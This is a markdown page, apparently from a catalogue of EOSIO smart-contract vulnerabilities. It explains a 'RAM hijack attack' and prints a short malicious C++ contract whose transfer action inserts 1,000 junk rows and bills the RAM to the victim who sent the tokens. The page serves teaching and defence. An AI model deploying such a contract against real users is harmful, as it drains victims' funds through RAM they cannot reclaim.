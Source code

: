 ## Description

This attack is named as `RAM hijack attack`. In EOSIO, RAM is a type of resource to pay for the storing of permanent resources. Moreover, the RAM can be paid by other users. Therefore, attackers can abuse such a feature.

## Attack instance

The below code snippet shows a malicious code snippet:

```c++
class dataStorage : public eosio::contract {
  [[eosio::action]] void transfer(name from, name to, asset quantity, std::string memo) {
    // instantiate a multi_index table
    _ttab ttabs(_self,_self);

    for (int i = 0; i < 1000; i++) {
    // The first parameter specifies the account that would pay for any used RAM
    ttabs.emplace(from, [&](auto& data){ 
      // places junk data into the table
      data.id = i;
    });
    }
  }
};
EOSIO_API(dataStorage, (transfer)) //Handles the transfer function
```

We can see that, to perform RAM hijacking, attackers first lure victims to transfer EOS tokens to them. Once the victim initiates a transfer, the harmful *transfer* shown above will be invoked, where it inserts meaningless data into the table, and it charge the RAM from `from`, i.e., the victim.

According to [an experiment](https://www.apriorit.com/dev-blog/576-eos-ram-exploit), such a 1,000 rows of data takes 100KB of RAM, around $50.
Occupied RAM cannot be released, nor sold to others, victims have to wait for attackers to actively clear the table and free up RAM resources.

## Corresponding vulnerability

[V13 (assignable resource payer)](../vulnerabilities/v13.md)
